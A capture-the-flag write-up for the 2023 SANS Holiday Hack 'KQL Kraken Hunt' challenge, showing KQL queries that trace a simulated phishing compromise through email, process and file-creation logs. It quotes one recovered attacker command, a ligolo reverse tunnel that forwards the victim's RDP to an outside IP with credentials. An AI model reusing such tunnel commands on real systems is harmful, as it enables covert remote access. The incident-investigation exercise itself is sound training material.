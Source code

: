 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## KQL Kraken Hunt
Difficulty: :christmas_tree::christmas_tree:  
Use Azure Data Explorer to [uncover misdeeds](https://detective.kusto.io/sans2023) in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

### Hints
#### Outbound Connections
*From: Tangle Coalbox*
Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!
#### KQL Tutorial
*From: Tangle Coalbox*
Once you get into the [Kusto trainer](https://detective.kusto.io/sans2023), click the blue Train me for the case button to get familiar with KQL.
#### File Creation
*From: Tangle Coalbox*
Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

### Solution
#### Onboarding
*Question*: How many Craftperson Elf's are working from laptops? 

*Query*:
```kql
Employees 
| where role == "Craftsperson Elf" and hostname contains "LAPTOP"
| summarize count()
```

*Answer*: `25`

#### Case #1
*Question*: 
1) What is the email address of the employee who received this phishing email?
2) What is the email address that was used to send this spear phishing email?
3) What was the subject line used in the spear phishing email?

*Query*:
```kql
Email
| where link contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project recipient, sender, subject
```

*Answer*: 
| recipient | sender | subject |
| ------------------------------------------------ | ------------------ | -------------------------------- |
| alabaster_snowball@santaworkshopgeeseislands.org | cwombley@gmail.com | \[EXTERNAL\] Invoice foir reindeer food past due |

#### Case #2
*Question*: 
1) What is the role of our victim in the organization?
2) What is the hostname of the victim's machine?
3) What is the source IP linked to the victim?

*Query*:
```kql
Employees
| where email_addr == "alabaster_snowball@santaworkshopgeeseislands.org"
| project role, hostname, ip_addr
```

*Answer*: 
| role     | hostname     | ip_addr   | 
| -------- | ------------ | --------- |
| Head Elf | Y1US-DESKTOP | 10.10.0.4 |

#### Case #3
*Question*: 
1) What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!
2) What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

*Query for question 1*:
```kql
OutboundNetworkEvents
| where src_ip == "10.10.0.4" and url contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project timestamp
```

*Answer for question 1*: `2023-12-02T10:12:42Z`

*Query for question 2*:
```kql
FileCreationEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z") and filename != "MonthlyInvoiceForReindeerFood.docx"
| limit 1
| project filename
```

*Answer for question 2*: `giftwrap.exe`

#### Case #4
*Question*: 
1) The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?
2) What is the timestamp when the attackers enumerated network shares on the machine?
3) What was the hostname of the system the attacker moved laterally to?

*Query*:
```kql
ProcessEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z")
```

*Answer for question 1*:   
This took a little manual analysis, eventually identifying the command:
```bash
cmd.exe "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
```